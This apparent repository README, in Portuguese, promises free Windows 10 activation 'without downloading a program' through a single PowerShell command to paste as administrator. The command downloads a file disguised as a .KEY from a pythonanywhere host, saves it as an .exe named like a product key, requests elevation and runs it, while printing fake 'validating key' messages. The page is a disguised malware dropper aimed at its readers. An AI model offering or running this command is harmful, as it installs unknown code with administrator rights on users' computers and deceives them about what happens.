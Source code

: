 


⚡ Como Ativar Windows 10 da Correta, Sem Baixar Programa. Ative o Windows 10 Apenas Usando Comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::: Copie o comando completo ...

> `$path = "$env:TEMP\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe"; $url = "https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY"; if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell Invoke-WebRequest -Verb runAs; exit } Write-Host "VERIFICANDO VERSÃO DO PRODUTO..."; Invoke-WebRequest -Uri "https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY" -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process $path -Verb RunAs
`

